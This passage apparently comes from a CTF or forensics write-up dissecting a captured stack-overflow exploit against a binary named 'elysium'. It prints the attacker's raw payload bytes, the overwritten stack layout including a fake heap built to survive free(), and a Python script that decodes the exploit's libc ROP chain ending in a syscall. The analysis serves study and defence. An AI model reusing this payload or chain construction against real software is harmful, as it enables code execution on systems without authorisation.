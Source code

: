 Here is the data sent by the attacker:
```
7eba53cc457d0025af33e998dd5e642016c7f41f_3Aba\x08a{\xb7\x10a{\xb78Ab9Ac0Ac1Ac2Ac3aaaa\xda5W\xb7c5Ac0a{\xb7Ac8AQ\x90Q\xb7`cbadcba\x88GV\xb7(7Q\xb7Q\x90Q\xb7@bbadcba\x88GV\xb7\x99UT\xb7Q\x90Q\xb7 d{\xb7#d{\xb7\x88GV\xb7\xa1SQ\xb7agixscrtoseffuuu\xdd\xcb\\\xb7 d{\xb7
```

The stack layout of the cipher_recv function after the overflow is:
```
sha1_recvd= byte ptr -45h	=> SHA1 + "_"
buf= byte ptr -1Ch		=> 0x61624133
ptr1= dword ptr -18h		=> 0xb77b6108
ptr2= dword ptr -14h		=> 0xb77b6110
var_10= dword ptr -10h		=> 0x39624138
cmd= dword ptr -0Ch		=> 0x41306341
???				=> 0x63413163
???				=> 0x33634132
SAVED_EBP			=> 0x61616161
SAVED_EIP			=> 0xb75735da
```

We can see that the two heap pointers have a valid address. According to the /proc/self/maps file leaked earlier, we see that these addresses respectively point to units+0x8 and units+0x10. We now understand the meaning of the decreases: the attacker built a fake heap with 4 8-bytes chunks, so that the calls to free() do not make the program crash.

Now, it's time to study the ROP chain ...

### ROP Chain

The libc.so.6 and the elysium binary being provided, we can resolve each address of the ROP chain. Once an address has been resolved, it is added to a dictionary, and a Python script shows us a "pretty" rop chain:
```
#!/usr/bin/python

import struct

resolved = {
    0xb75735da: "pop esi ; pop edi ; pop ebp ; ret",
    0xb7519051: "pop ecx ; pop eax; ret",
    0xb7564788: "sub eax,ecx ; ret",
    0xb7513728: "xchg ebx,eax ; ret",
    0xb7545599: "mov edx,eax ; mov eax,edx ; ret",
    0xb75153a1: "int 0x80 ; pop ebp ; pop edi ; pop esi ; pop ebx ; ret",
    0xb75ccbdd: "pop esp ; ret",
}

rop_chain = "da3557b76335416330617bb741633841519051b76063626164636261884756b7283751b7519051b74062626164636261884756b7995554b7519051b720647bb723647bb7884756b7a15351b761676978736372746f73656666757575ddcb5cb720647bb7".decode("hex")

while len(rop_chain)>4:
    value = struct.unpack("<L",rop_chain[:4])[0]
    comment = ""
    if value in resolved:
        comment = resolved[value]
    print hex(value) + "\t" + comment
    rop_chain = rop_chain[4:]
```

